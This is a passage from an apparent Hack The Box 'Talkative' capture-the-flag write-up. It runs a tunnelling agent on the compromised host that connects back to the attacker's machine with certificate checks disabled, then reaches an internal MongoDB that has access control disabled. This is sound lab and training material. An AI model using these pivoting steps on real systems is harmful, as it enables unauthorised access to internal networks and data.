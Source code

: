 ```bash
```

Run agent on the target :

```bash
saul@talkative:/dev/shm$ ./agent_linux_amd64 -connect 10.10.14.7:11601 -ignore-cert                   
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.10.14.7:11601"
```

### Mongo DB

I need `mongodb-clients` to install.

```bash
┌──(kali㉿kali)-[~/htb/talkative]
└─$ sudo apt install mongodb-clients
```

Then connect to the Mongo DB server.

```bash
┌──(kali㉿kali)-[~/htb/talkative]
└─$ mongo --host 172.17.0.2 --port 27017
MongoDB shell version v7.0.14
connecting to: mongodb://172.17.0.2:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("c31c2e65-2e76-4640-a061-237696dfa42f") }
MongoDB server version: 4.0.26
WARNING: shell and server versions do not match
================
Warning: the "mongo" shell has been superseded by "mongosh",
which delivers improved usability and compatibility.The "mongo" shell has been deprecated and will be removed in
an upcoming release.
For installation instructions, see
https://docs.mongodb.com/mongodb-shell/install/
================
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
        https://docs.mongodb.com/
Questions? Try the MongoDB Developer Community Forums
        https://community.mongodb.com
---
The server generated these startup warnings when booting: 
2025-03-14T04:58:46.093+0000 I STORAGE  [initandlisten] 
2025-03-14T04:58:46.093+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
2025-03-14T04:58:46.093+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
2025-03-14T04:58:47.611+0000 I CONTROL  [initandlisten] 
2025-03-14T04:58:47.611+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2025-03-14T04:58:47.611+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2025-03-14T04:58:47.611+0000 I CONTROL  [initandlisten] 
---
rs0:PRIMARY> 
```
